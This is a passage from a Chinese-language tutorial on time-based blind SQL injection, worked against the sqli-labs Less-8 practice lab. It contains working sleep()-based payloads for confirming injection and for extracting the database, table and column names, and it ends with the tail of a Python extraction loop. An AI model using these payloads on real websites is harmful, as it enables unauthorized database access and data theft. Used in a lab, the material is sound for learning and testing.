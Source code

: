 ```python
    
    if high!=32:
        result += chr(high)
    else:
        break
    print(result)
```

### 基于时间的盲注

时间盲注用于代码存在sql注入漏洞，然而页面既不会回显数据，也不会回显错误信息

语句执行后也不提示真假，我们不能通过页面的内容来判断

所以有布尔盲注就必有时间盲注，但有时间盲注不一定有布尔盲注

时间盲注主要是利用sleep函数让网页的响应时间不同从而实现注入。

sql-lab-less8：

无论输入什么都只会回显一个you are in...，这就是时间盲注的特点。

当正常输入?id=1时时间为11毫秒

![image-20210811205319016](https://www.hualigs.cn/image/611533304e6e5.jpg)

判断为单引号字符型注入后，插入sleep语句

```
?id=1' and if(length(database())>0,sleep(3),1) --+
```

![image-20210811205808624](https://www.hualigs.cn/image/6115333128410.jpg)

明显发现响应时间为3053毫秒。

利用时间的不同就可以利用脚本跑出数据库，后续步骤和布尔盲注一致。

爆库

```
?id=1' and if(ascii(substr(database(),1,1))>25,sleep(3),1) --+
```

爆表

```
?id=1' and if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),1,1))>25,sleep(3),1)--+
```

爆字段

```
?id=1' and if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_schema=database()),1,1))>25,sleep(3),1)--+
```

脚本
